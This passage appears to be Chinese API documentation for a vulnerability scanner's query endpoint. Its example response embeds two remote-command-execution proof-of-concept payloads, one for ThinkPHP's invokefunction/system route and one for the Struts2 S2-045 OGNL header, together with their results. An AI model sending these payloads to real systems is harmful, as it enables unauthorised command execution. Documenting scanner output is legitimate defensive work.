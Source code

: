 ## 详细API说明

### 1. 查询漏洞

**请求方法与地址**：
```
GET /api/vuln/
```

**查询参数**：

通用字段说明中的基础查询参数都可用于过滤漏洞。

**响应示例**：
```json
{
  "code": 200,
  "message": "success",
  "page": 1,
  "size": 10,
  "total": 25,
  "items": [
    {
      "_id": "60f8c2b2e13e4b1e8c8b4567",
      "plg_name": "thinkphp_rce",
      "plg_type": "RCE",
      "vul_name": "ThinkPHP 远程命令执行漏洞",
      "app_name": "ThinkPHP",
      "target": "http://example.com/",
      "detail": {
        "payload": "/index.php?s=/index/think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami",
        "response": "apache\n",
        "risk": "high"
      },
      "task_id": "60f8c2b2e13e4b1e8c8b1234",
      "create_time": "2023-05-01T08:30:00.000Z"
    },
    {
      "_id": "60f8c2b2e13e4b1e8c8b4568",
      "plg_name": "struts2_045",
      "plg_type": "RCE",
      "vul_name": "Struts2 S2-045 远程命令执行漏洞",
      "app_name": "Apache Struts2",
      "target": "http://example.org/admin/",
      "detail": {
        "payload": "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Poc',1234*1234)}.multipart/form-data",
        "response": "X-Poc: 1522756",
        "risk": "critical"
      },
      "task_id": "60f8c2b2e13e4b1e8c8b1234",
      "create_time": "2023-05-01T08:32:00.000Z"
    }
    // ... 更多漏洞记录
  ],
  "query": {
    "plg_type": "RCE"
  }
}
```

